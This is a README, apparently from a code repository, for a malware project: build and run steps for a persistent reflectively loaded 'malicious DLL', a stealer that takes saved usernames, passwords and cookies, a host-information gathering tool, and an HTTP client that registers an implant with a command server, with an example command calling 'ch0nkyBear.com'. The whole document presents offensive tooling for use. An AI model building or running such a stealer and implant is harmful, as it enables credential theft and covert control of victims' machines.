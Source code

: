# README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors
* TODO: get the communication functions working with the server, then add the files to the make file as a requirement for the dll

## Stealer functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run
* Steals Login Data(username and password) and Cookies from the system

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
